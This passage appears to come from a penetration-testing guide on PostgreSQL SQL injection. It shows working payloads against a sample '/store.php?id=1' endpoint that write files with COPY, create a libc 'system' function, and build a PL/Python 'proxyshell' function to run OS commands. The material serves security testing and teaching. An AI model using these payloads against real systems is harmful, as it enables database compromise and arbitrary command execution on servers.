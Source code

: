 By reverting the COPY statement, we can write to the local file system with the `postgres` user rights

`/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Shell Injection

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl.

##### Dynamic Library

Until PostgreSQL 8.1, it was possible to add a custom function linked with `libc`:

`CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`

Since `system` returns an `int` how we can fetch results from `system` stdout?

Here's a little trick:

- create a `stdout` table: `CREATE TABLE stdout(id serial, system_out text)`
- executing a shell command redirecting its `stdout`: `SELECT system('uname -a > /tmp/test')`
- use a `COPY` statements to push output of previous command in `stdout` table: `COPY stdout(system_out) FROM '/tmp/test*'`
- retrieve output from `stdout`: `SELECT system_out FROM stdout`

###### Example

```text
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) --
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --
/store.php?id=1; SELECT system('uname -a > /tmp/test') --
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```

##### Plpython

PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict what user can do. It's not installed by default and can be enabled on a given database by `CREATELANG`

- Check if PL/Python has been enabled on a database: `SELECT count(*) FROM pg_language WHERE lanname='plpythonu'`
- If not, try to enable: `CREATE LANGUAGE plpythonu`
- If either of the above succeeded, create a proxy shell function: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu`
- Have fun with: `SELECT proxyshell(os command);`

###### Example

- Create a proxy shell function: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;return os.popen(args[0]).read()’ LANGUAGE plpythonu;--`
- Run an OS Command: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`
